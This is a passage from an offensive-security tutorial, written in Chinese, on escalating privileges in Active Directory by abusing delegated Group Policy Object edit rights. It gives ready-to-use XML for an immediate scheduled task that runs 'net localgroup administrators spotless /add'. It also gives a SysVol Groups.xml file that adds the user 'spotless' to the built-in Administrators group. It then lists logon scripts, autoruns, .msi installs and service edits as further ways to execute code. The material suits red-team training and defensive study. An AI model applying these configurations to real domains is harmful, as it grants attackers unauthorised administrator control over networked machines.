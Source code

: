 ```
​                    <Exec>

​                        <Command>cmd</Command>

​                        <Arguments>/c net localgroup administrators spotless /add</Arguments>

​                    </Exec>

​                </Actions>

​                <Triggers>

​                    <TimeTrigger>

​                        <StartBoundary>%LocalTimeXmlEx%</StartBoundary>

​                        <EndBoundary>%LocalTimeXmlEx%</EndBoundary>

​                        <Enabled>true</Enabled>

​                    </TimeTrigger>

​                </Triggers>

​            </Task>

​        </Properties>

​    </ImmediateTaskV2>

</ScheduledTasks>
```
### 用户和组

通过滥用 GPO 用户和组功能也可以实现相同的权限升级。请注意，在下面的文件中，第 6 行将用户`spotless`添加到本地`administrators`组 - 我们可以将用户更改为其他用户，添加另一个用户，甚至将用户添加到另一个组/多个组，因为我们可以修改策略配置文件由于分配给我们的用户的 GPO 委托而显示的位置`spotless`：

\offense.local\SysVol\offense.local\Policies\{DDC640FF-634A-4442-BC2E-C05EED132F0C}\Machine\Preferences\Groups
```
<?xml version="1.0" encoding="utf-8"?>

<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">

​    <Group clsid="{6D4A79E4-529C-4481-ABD0-F5BD7EA93BA7}" name="Administrators (built-in)" image="2" changed="2018-12-20 14:08:39" uid="{300BCC33-237E-4FBA-8E4D-D8C3BE2BB836}">

​        <Properties action="U" newName="" description="" deleteAllUsers="0" deleteAllGroups="0" removeAccounts="0" groupSid="S-1-5-32-544" groupName="Administrators (built-in)">

​            <Members>

​                <Member name="spotless" action="ADD" sid="" />

​            </Members>

​        </Properties>

​    </Group>

</Groups>
```
此外，我们可以考虑利用登录/注销脚本、使用注册表进行自动运行、安装 .msi、编辑服务和类似的代码执行途径。